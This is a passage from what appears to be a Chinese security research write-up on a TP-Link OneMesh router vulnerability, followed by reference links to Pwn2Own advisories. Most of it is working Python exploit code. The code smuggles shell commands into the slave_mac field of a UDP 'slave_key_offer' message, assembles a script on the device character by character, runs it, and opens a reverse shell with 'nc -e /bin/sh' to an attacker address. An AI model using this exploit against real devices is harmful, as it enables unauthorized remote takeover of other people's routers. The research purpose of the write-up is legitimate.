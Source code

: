 ```python
    return packet

# lua -e 'require(\"luci.controller.admin.onemesh\").sync_wifi_specified({mac=\"%s\"})'
def command_inject_once(cmd):
    sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    wrapper = b"';%s'"%(cmd)
    payload = b'''
        {
            "method": "slave_key_offer",
            "data": {
                "group_id": "123",
                "ip": "192.168.1.1",
                "slave_mac": "%s",
                "slave_private_account": "d1tto",
                "slave_private_password": "d1tto",
                "slave": "d1tto",
                "want_to_join": false,
                "model": "123",
                "product_type": "123",
                "operation_mode": "123"
            }
        }
    '''%(wrapper)
    packet = make_packet(7, 1, payload)
    sock.sendto(packet, (ip, port))
    data = sock.recvfrom(10)
    print(data)

def exexute_cmd(cmd):
    for c in cmd:
        tmp = b"printf '%s'>x"%(chr(c).encode())
        command_inject_once(tmp)
        command_inject_once(b"cat x*>>D")
    command_inject_once(b"sh D*")

myip = b"192.168.2.2"
# https://highon.coffee/blog/reverse-shell-cheat-sheet/#telnet-reverse-shell
cmd = b"nc -e /bin/sh %s 8888"%(myip)
exexute_cmd(cmd)
```

# 参考文章

- https://labs.f-secure.com/advisories/tp-link-ac1750-pwn2own-2019/

- https://www.zerodayinitiative.com/blog/2020/4/6/exploiting-the-tp-link-archer-c7-at-pwn2own-tokyo

- https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/linux/misc/tplink_archer_a7_c7_lan_rce

- https://github.com/pedrib/PoC/blob/master/advisories/Pwn2Own/Tokyo_2019/lao_bomb/lao_bomb.md
- [TP-Link WiFi拓展器](https://service.tp-link.com.cn/detail_article_3035.html)

- [TP-Link OneMesh](https://www.tp-link.com/us/onemesh/)

- https://blog.ihipop.com/2018/05/5110.html
